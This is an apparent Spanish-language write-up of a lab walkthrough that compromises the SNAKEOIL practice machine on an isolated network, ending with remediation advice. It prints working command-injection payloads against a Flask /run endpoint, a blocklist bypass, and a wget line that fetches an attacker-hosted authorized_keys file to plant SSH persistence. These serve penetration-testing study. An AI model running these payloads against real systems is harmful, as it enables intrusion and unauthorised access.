Preparación del Laboratorio
Para garantizar un entorno seguro y ético, se configuró la máquina SNAKEOIL y Kali Linux en una red Host-Only (Solo-anfitrión), habilitando el servidor DHCP de VirtualBox para evitar salidas a Internet o a la red física.


Fig 1 y 2: Intentos de configuración de red


Fig 3 y 4: Adaptador Host-Only con DHCP (192.168.56.x)
Fase 1 y 2: Reconocimiento y Escaneo
Sin conocimiento previo de la IP objetivo (Caja Negra), se utilizó netdiscover para ubicar la máquina, seguido de un escaneo profundo con nmap a los 65,535 puertos.
# Descubrimiento de hosts en la red aislada
sudo netdiscover -i eth1 -r 192.168.56.0/24
# Escaneo agresivo con detección de versiones y scripts NSE
sudo nmap -sC -sV -p 22,80,8080 -A 192.168.56.102
Fig 5: Identificación de la IP .102


Fig 6 y 7: Nmap revela SSH (22) y HTTP (80, 8080)
Fase 3: Enumeración de Servicios Web
El puerto 8080 alojaba la aplicación "Good Tech Inc.". Al realizar fuzzing de directorios con gobuster, se descubrieron rutas críticas ocultas.
- /users: Fuga de información. Expuso el usuario patrick y su hash pbkdf2-sha256 sin autenticación.
- /login y /registration: Endpoints de autenticación JWT de la API Flask.
- /run y /secret: Funciones administrativas ocultas.

Fig 10: Gobuster revela endpoints críticos

Fig 11: Information Disclosure del usuario 'patrick'
Fase 4: Explotación (RCE)
Tras registrar un usuario falso, se obtuvo un JWT. Se descubrió que el endpoint /secret requería el JWT inyectado como Cookie y no como Header de Autorización. Esto permitió extraer la clave secreta para abusar del endpoint /run.
Concepto Teórico: OS Command Injection
El endpoint /run concatenaba la entrada del usuario directamente en la función subprocess.Popen con shell=True. Usando backticks, se logró inyectar comandos de sistema arbitrarios.
# Inyección de comandos confirmada ejecutando 'whoami'
curl -X POST http://192.168.56.102:8080/run \
-H "Content-Type: application/json" \
-d '{"url":"127.0.0.1:8080 `whoami`", "secret_key":"commandexecutionissecret"}'
Fig 13: JWT inyectado en cookie para clave secreta

Fig 14: Ejecución remota de comandos en el servidor
Fase 5: Post-Explotación (Persistencia SSH)
El endpoint /run tenía un WAF basado en listas negras que bloqueaba bash, python, nc y php. Para evadirlo, se generó un par de llaves SSH localmente y se inyectó un comando wget para depositar la llave pública directamente en el authorized_keys de patrick.
# Carga de la llave pública evadiendo filtros de palabras prohibidas
{"secret_key":"commandexecutionissecret", "url":"-V & wget http://192.168.56.103:80/authorized_keys -O /home/patrick/.ssh/authorized_keys"}Fase 6: Escalada de Privilegios
Con acceso SSH estable, se revisó el código fuente en app.py, donde se descubrió que la clave JWT_SECRET_KEY estaba quemada en el código (Hardcoded Credentials).
El valor "NOreasonableDOUBTthisPASSWORDisGOOD" había sido reutilizado por el usuario como su contraseña del sistema, permitiendo ejecutar sudo su para comprometer la cuenta root.

Fig 15: Revisión de código fuente (Hardcoded Credentials)

Fig 16: Acceso administrativo obtenido con éxito
Conclusiones y Remediación
El compromiso total del sistema demuestra cómo vulnerabilidades de severidad moderada pueden encadenarse letalmente. Las recomendaciones principales para este entorno son:
- Eliminar el endpoint
/runy evitar el uso deshell=Trueen subprocesos. - No almacenar claves secretas en el código fuente; usar gestores de secretos o variables de entorno.
- No reutilizar secretos criptográficos para contraseñas de usuarios del sistema operativo.
- Aplicar el principio de mínimo privilegio en las configuraciones de sudoers.